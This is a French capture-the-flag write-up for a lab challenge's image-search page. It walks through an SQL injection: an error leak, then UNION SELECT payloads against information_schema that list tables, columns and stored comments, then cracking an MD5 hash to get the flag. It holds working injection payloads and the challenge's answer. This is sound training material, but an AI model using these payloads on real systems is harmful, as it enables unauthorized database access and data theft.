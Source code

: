 `ip`/?page=searchimg

Note: tous les codes suivants ont été insérés dans l'input liée au submit.

si on submit vide, on obtient:
*You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1*

En testant `1 OR 2`, on constate qu'une requete SQL est donc possible :
Voici notre bible pour ce flag : *http://www.sqlinjection.net/column-names/*

`TRUE` permet de valider l'expression précédente. `UNION` permet de coupler les résultats d'une première requête avec une seconde dont les composantes doivent être les mêmes.

`TRUE UNION SELECT table_schema, table_name FROM information_schema.tables`

schema: Member_images
table: list_images

`TRUE UNION SELECT table_name, column_name FROM information_schema.columns`

Table: list_images
Column: id
Column: url
Column: title
Column: comment

Ce qui permet de rechercher 2 par 2 (étant limités par l'UNION) les résultats pour chaques colonnes de la table users:
`TRUE UNION SELECT title, comment FROM Member_images.list_images`
```
id: 5
url: borntosec.ddns.net/images.png
title: Hack me ?
comment: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

le décryptage de *1928e8083cf461a51303633093573c46* en md5 = *albatroz* qui passé en sha256 donne le flag : *f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188*
